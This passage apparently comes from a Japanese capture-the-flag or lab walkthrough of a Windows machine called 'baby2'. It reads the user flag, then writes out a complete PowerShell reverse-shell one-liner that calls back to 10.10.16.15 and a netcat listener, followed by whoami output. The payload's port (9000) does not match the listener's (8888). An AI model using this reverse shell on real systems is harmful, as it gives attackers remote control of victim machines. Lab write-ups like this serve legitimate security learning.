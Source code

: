 userフラグを取得できた
```sh
SHELL type C:\user.txt
> > SHELL type C:\user.txt
```

正直、これだとやりにくいので、SHELL関数を使って、リバースシェルを立てる

revbshellのserver.pyの中で以下のコマンドを実行する
```sh
> PWD    
> PWD 
.
SHELL powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.16.15',9000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

リバースシェルを待ち受ける
```sh
rlwrap nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.16.15] from (UNKNOWN) [10.129.234.72] 64759

PS C:\Windows\system32> 
```
確立できた





# Lateral Movement

現状を確認
アカウント
```bash
PS C:\> whoami /all

USER INFORMATION
----------------

User Name              SID                                          
====================== =============================================
baby2\amelia.griffiths S-1-5-21-213243958-1766259620-4276976267-1114


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes                                        
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Group used for deny only                          
```